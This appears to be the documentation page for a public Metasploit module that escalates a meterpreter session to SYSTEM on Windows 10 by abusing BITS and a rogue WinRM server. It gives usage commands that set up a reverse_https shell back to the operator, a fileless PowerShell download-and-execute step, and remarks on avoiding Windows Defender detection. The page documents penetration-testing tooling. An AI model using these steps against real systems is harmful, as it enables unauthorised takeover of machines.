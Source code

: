 # Description

This module exploits BITS behavior which tries to connect to the local Windows Remote Management server (WinRM) every times it starts. The exploit dll (loaded through a previous unprivilegied meterpreter session) launches a fake WinRM server which listens on port 5985 and triggers BITS. When BITS starts, it tries to authenticate to the Rogue WinRM server, which allows to steal a SYSTEM token. This token is then used to launch a new process as SYSTEM user. In the case of this exploit, powershell.exe is launched as SYSTEM and it downloads/executes an evil powershell script on a second local http server. Thus, this exploit doesn't write any file on the disk.

this exploit has been written from decoder's proof of concept:
https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/
https://github.com/antonioCoco/RogueWinRM

This exploit has been successfully tested on :
- Windows 10 (10.0 Build 19041) 32 bits


# Verification Steps:

For exploiting, first get a meterpreter session which has either SE_IMPERSONATE_NAME or SE_ASSIGNPRIMARYTOKEN_NAME privilege. Then, in metasploit framework:

    use exploits/windows/local/bits_ntlm_token_impersonation
    set SESSION previous meterpreter session
    set PAYLOAD windows/meterpreter/reverse_https
    set LHOST your ip
    set LPORT your port
    exploit

A new meterpreter session belonging to SYSTEM should pop.


# Options:

Required:
- SESSION
- PAYLOAD
- LHOST
- LPORT

additional options in "show advanced" for powershell payload.


# WARNINGS:

- As this dll exploit runs 2 services on the target (Fake WinRM on port 5985 and HTTP on port 80), a firewall popup may appear on target screen. Thus, this exploit is not completely silent.
- A powershell windows flashes on target screen
- Windows servers are not vulnerable because a genuine WinRM service is already running.
- SE_IMPERSONATE_NAME or SE_ASSIGNPRIMARYTOKEN_NAME privs are required.
- BITS must not be already running.
- Powershell payload may be flagged by Windows defender. You can customize powershell payload with "show advanced"
